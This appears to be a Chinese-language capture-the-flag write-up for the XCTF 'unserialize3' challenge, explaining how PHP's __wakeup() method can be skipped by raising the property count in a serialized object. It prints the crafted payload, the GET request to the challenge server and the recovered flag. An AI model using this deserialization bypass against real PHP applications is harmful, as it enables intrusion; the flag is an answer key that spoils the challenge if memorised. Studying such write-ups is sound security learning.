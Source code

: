 
## unserialize3

打开场景可以看到
```
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```
* 代码审计，可以看到   function __wakeup()，配合题目unserialize想到PHP的序列化和反序列化
* ?code=  使用code传入payload
---
### __wakeup()函数用法:

__wakeup()是用在反序列化操作中。unserialize()会检查存在一个__wakeup()方法。如果存在，则先会调用__wakeup()方法。
```
<?php
class A{
function __wakeup(){
echo 'Hello';
}
}
$c = new A();
$d=unserialize('O:1:"A":0:{}');
?>
```
以上为示例代码 会输出 hello

---
题目中的 __wakeup() 函数如下
```
public function __wakeup(){
exit('bad requests');
}
```
调用 __wakeup() 会触发 exit('bad requests'); 所以应该绕过 __wakeup()

---
### 漏洞
__wakeup()漏洞就是与整个属性个数值有关。当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行。

* 执行以下代码 得到 xctf类 实例化后的对象，并输出 序列化的字符串
```
<?php
class xctf{                      //定义一个名为xctf的类
public $flag = '111';            //定义一个公有的类属性$flag，值为111
public function __wakeup(){      //定义一个公有的类方法__wakeup()，输出bad requests后退出当前脚本
exit('bad requests');
}
}
$test = new xctf();           //使用new运算符来实例化该类（xctf）的对象为test
echo(serialize($test));       //输出被序列化的对象（test）
?>
```
执行结果
```
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```
### payload
当我们将上述的序列化的字符串中的对象属性个数由真实值1修改为2
```
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```
使用 ？code=  get请求传入序列化后的字符串
```
http://111.198.29.45:30940?code=O:4:“xctf”:2:{s:4:“flag”;s:3:“111”;}
```
得到flag
```
the answer is : cyberpeace{31257a80ea7ba3411e2384dab6eaf26a}
```
